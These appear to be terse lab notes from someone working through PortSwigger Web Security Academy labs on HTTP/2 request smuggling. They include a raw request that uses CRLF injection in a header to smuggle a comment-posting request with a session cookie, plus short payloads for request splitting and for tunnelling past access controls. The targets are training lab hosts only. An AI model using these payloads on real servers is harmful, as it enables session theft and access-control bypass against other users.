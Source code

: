 POST / HTTP/2
Host: acec1ffb1ef20ceac097a6f300b50082.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
X: bs$Transfer-Encoding: chunked # $ = CRLF
Content-Length: 541

0

POST /post/comment HTTP/1.1
Host: acec1ffb1ef20ceac097a6f300b50082.web-security-academy.net
Cookie: session=YiFWOusmxqoDwar9NZqRa5SRACXiE8kH; _lab_analytics=k2hEpEMnh7FOlL08tsdU6yMrH5vH786oPccuLkKph1zM68i5HmMENqjtlS6uDn6yd0rQpCKxt2RJqeOveudPh9abuI3oC7uswrYWtOQXGddomfVqNjbuoVjGxQa74PeWlEHZyRaNSqdarVtob9Vy9TIP4yogrPFHLLSeNKaASTKlFzvfvG5QyoGoq4mNqPtebBx7mdtQW6IePy0Vx5uDp5kFRohfrg6COqR5S7YJAn6WsZXZ8EWdRcNi6fmpyvu4
Content-Length: 1050


csrf=voFPOhHSY6nNJgKCxH4V10pzV0Zjx2ik&postId=4&name=dd&email=admin@dmin.min&website=&comment=


# 3. Lab: HTTP/2 request splitting via CRLF injection
https://portswigger.net/web-security/request-smuggling/advanced/http2-exclusive-vectors

**inside http2 header:**
name:
x 

Value:
break here

GET /404 HTTP/1.1
Host: aca11f101e26b91ec04c41f1002700cd.web-security-academy.net

# **HTTP request tunnelling**
https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling

# 1. Lab: Bypassing access controls via HTTP/2 request tunnelling
https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling

**leakage payload**
```
name:
foo: bar
Content-Length: 115

search=x


value:
xuy
```

